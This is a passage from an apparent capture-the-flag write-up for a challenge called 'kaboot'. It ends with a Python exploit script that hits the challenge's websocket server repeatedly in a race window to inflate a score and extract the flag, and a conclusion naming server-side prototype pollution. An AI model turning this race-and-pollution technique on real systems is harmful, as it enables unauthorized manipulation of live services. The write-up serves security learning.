 ```python
                if (flagMatch := re.search(FLAG_FORMAT, finalMessage['message'])) or (flagMatch := re.search(LOCAL_FLAG_FORMAT, finalMessage['message'])):
                    flag = flagMatch.group(0)
                    print(f'[+] Current score is >= 10000. Here\'s the flag: {flag}')
                    exit(0)
    except websockets.exceptions.ConnectionClosedError:
        print('[*] Connection closed')

if __name__ == "__main__":
    # url = "ws://localhost:5000/room/literally_anything" # local testing
    url = "wss://kaboot-e29d3ec9287c0db8.tjc.tf/room/literally_anything" # remote instance

    raceWindow = 0.10555555 # adjust this race window value
    ATTEMPT = 100
    for i in range(ATTEMPT):
        print(f'[*] Attempt {i + 1}...')
        asyncio.run(exploit(url, raceWindow))
    
    highestScore = max(allScores)
    print(f'[*] Highest score: {highestScore}')
```

However, this takes a lot of attempts to gain more than `9999` score.

## Conclusion

What we've learned:

1. Server-Side Prototype Pollution